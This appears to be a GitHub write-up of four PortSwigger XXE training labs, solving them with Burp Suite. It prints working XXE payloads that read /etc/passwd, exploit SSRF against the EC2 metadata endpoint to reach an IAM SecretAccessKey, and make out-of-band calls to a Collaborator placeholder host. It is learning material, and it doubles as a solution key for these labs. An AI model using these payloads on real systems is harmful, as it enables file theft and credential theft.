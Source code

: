 **Lab: Exploiting XXE using external entities to retrieve files**

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
Replace the productId number with a reference to the external entity: &xxe;. The response should contain "Invalid product ID:" followed by the contents of the /etc/passwd file.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/4b659553-dd2e-4d5c-841a-1cab3610b62a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/a68a9acb-e875-4d12-87af-d7e5c8796230)

**Lab: Exploiting XXE to perform SSRF attacks**

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
Replace the productId number with a reference to the external entity: &xxe;. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
Iteratively update the URL in the DTD to explore the API until you reach /latest/meta-data/iam/security-credentials/admin. This should return JSON containing the SecretAccessKey.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d38497ba-f4c7-4125-872a-63a90a358418)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/b6f0cd29-de9b-41f8-9496-324addf1e1b4)

**Lab: Blind XXE with out-of-band interaction**

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
Replace the productId number with a reference to the external entity:

&xxe;
Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8afc8214-9a2e-4d83-b374-cf2077bb0594)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1df95350-7428-4192-b893-2aa38c5ee0d8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/708a1c40-e077-46f2-9db4-6a5642732af1)

**Lab: Blind XXE with out-of-band interaction via XML parameter entities**

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8df209cf-4144-4121-986f-fa9f7eb59494)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/73f1997e-a9ff-4226-ac36-6039d0a88b6a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/94269059-7387-4362-a69f-e26947ca38a8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/12bc1db7-bc89-4837-a888-298821baa798)
